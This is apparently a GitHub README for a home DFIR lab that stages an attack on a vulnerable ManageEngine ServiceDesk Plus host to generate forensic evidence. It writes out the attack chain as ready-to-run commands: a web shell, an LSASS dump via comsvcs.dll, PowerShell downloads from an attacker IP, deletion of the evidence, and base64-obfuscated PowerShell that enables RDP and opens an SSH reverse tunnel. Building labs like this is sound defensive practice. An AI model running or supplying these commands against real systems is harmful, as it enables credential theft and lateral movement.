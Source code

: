 # Building My First DFIR Lab

## Lab Schema

![](LabSchema.png)


## Environment Setup
- Victim Machine: Windows 10 has:
    -  Vulnerable ManageEngine ServiceDesk Plus build 11303 found on the [ManageEngine Archives](https://archives.manageengine.com/service-desk/11303/)
    -  Sysmon for Windows Logging
    -  Wireshark
- Attacker Machine: Kali Linux
- Server: Windows 10

## Let's Go
### - Part 1:

#### a. Applying The Exploit:
![image](https://github.com/user-attachments/assets/d39fde33-273d-403c-9195-8dac52d64db1)

![image](https://github.com/user-attachments/assets/e7563550-22d8-4a1b-b8eb-b9b3761d9678)

#### b. Visiting wbsh.jsp

![image](https://github.com/user-attachments/assets/bb3eb98c-0af0-4dd2-ab0b-e478fed02f31)

#### c. Enum
  1. `whoami`
  2. `ipconfig /all`
  3. `systeminfo`
  4. `arp -a`
  5. `tasklist`
lsass.exe                      652 Services                   0     16,848 K
  
  6. `reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential`
#### e. `powershell.exe  Set-ItemProperty -Force -Path  'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name  'UseLogonCredential' -Value '1'`
#### f. `C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump, 652 C:\Windows\Temp\logctl.zip full`
#### g. Download C:\Windows\Temp\logctl.zip
#### h. `powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file2.exe', 'C:\windows\temp\calc.exe')`
#### k. `C:\windows\temp\calc.exe -accepteula -ma 652 C:\Windows\Temp\logct2.dmp`
#### l. Delete both of them `Remove-Item -Path "C:\Windows\Temp\logct2.dmp", "C:\Windows\Temp\logctl.zip"`

### - Part 2: Lateral Movement & Stealing Data

> Download Employees.xls FROM THE VICTIM


#### a. Download ekern.exe 
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file.exe', 'C:\windows\temp\ekern.exe')
```

#### b. Check if RDP is Enabled?
```
Get-Service -Name TermService
```

#### c. Enable RDP using the Encoded Command
```
powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('U2V0LVNlcnZpY2UgLU5hbWUgVGVybVNlcnZpY2UgLVN0YXJ0dXBUeXBlIEF1dG9tYXRpYw0KDQpTdGFydC1TZXJ2aWNlIC1OYW1lIFRlcm1TZXJ2aWNlDQoNClNldC1JdGVtUHJvcGVydHkgLVBhdGggJ0hLTE06XFN5c3RlbVxDdXJyZW50Q29udHJvbFNldFxDb250cm9sXFRlcm1pbmFsIFNlcnZlclwnIC1OYW1lICdmRGVueVRTQ29ubmVjdGlvbnMnIC1WYWx1ZSAw')) | Invoke-Expression}"
```

#### d. Check Again 
```
Get-Service -Name TermService
```
#### e. Write the FXS.bat
```
powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('JGJhdGNoQ29udGVudCA9ICdlY2hvIHl8QzpcV2luZG93c1xUZW1wXGVrZXJuLmV4ZSAtc3NoIC1QIDQ0MyAtbCB2MWN0aW0gLXB3IENAbnRfRDNmM25kIC1SIDEyNy4wLjAuMTo0OTgwMDoxOTIuMTY4LjIwLjE0NzozMzg5IDE5Mi4xNjguMS4yJw0KJGJhdGNoRmlsZVBhdGggPSAnQzpcVXNlcnNcVmljdGltXERvY3VtZW50c1xGWFMuYmF0Jw0KU2V0LUNvbnRlbnQgLVBhdGggJGJhdGNoRmlsZVBhdGggLVZhbHVlICRiYXRjaENvbnRlbnQ=')) | Invoke-Expression}"
```
![image](https://github.com/user-attachments/assets/f9039d8d-dcc6-46b8-b690-e453a6b6c517)


#### f. Execute FXS.bat == Establish SSH Connection
```
powershell.exe C:\Users\Victim\Documents\FXS.bat
```

![image](https://github.com/user-attachments/assets/f0cf2a93-277f-4e95-84c3-2cfce7b07578)


![image](https://github.com/user-attachments/assets/ac46e920-278f-4505-a6c4-7b5a4b35cf29)


#### g. Let's Start The RDP, when doing the RDP we will be Making 3 attemps 

![image](https://github.com/user-attachments/assets/088dc184-72d4-4c3a-b5be-a32cf9abc9a4)

> Now We Are Ready!! Let's Start The Lab...
